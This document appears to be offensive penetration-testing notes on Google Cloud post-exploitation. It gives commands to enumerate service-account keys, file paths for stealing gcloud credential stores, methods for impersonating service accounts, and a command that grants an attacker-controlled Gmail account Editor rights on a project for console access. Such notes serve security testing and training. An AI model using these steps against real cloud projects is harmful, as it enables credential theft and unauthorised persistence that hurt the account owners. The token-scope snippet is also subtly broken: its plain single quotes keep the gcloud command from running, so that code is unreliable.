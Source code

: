 Access scopes are not a security mechanism (stated by Google themselves)

**Find Token Access Scopes**

```bash
TOKEN='gcloud auth print-access-token'
curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=$TOKEN
```

- access scopes have “no effect when making requests not authenticated through OAuth”
    - search for an RSA private key to authenticate to the Google Cloud API and request a new OAuth token
        
        `gcloud auth activate-service-account --key-file <FILE>`
        

**Check for Service Accounts with Exported Key Files**

```bash
for i in $(gcloud iam service-accounts list --format="table[no-heading](email)"); do
    echo Looking for keys for $i:
    gcloud iam service-accounts keys list --iam-account $i
done
```

- default name for service account key file is `<PROJECT_ID>-<PORTION_OF_KEY_ID>.json`

- if access scopes are too restrictive, check if there is another instance that is more permissive
    - `gcloud compute instances list --quiet`
- check if an instance has the default service account (`PROJECT_NUMBER-compute@developer.gserviceaccount.com`)

### Steal GCloud Authorizations

- look for the following files:

```bash
~/.config/gcloud/credentials.db
~/.config/gcloud/legacy_credentials/[ACCOUNT]/adc.json
~/.config/gcloud/legacy_credentials/[ACCOUNT]/.boto
~/.credentials.json
```

## Service Account Impersonation

Three ways to impersonate a service account:

1. Authentication using RSA private keys 
2. Authorization using Cloud IAM policies 
3. Deploying jobs on GCP services 

- can potentially impersonate another account with the `iam.serviceAccountTokenCreator` permission
- if you have `Owner` access, you can try logging into the web interface
    - service accounts can’t access web interface, but you can provide `Editor`access to any arbitrary `@gmail.com` account and then login (can’t provide `Owner` access)
    
    ```bash
    gcloud projects add-iam-policy-binding <PROJECT> --member user:0xd4y@gmail.com --role roles/editor
    ```
    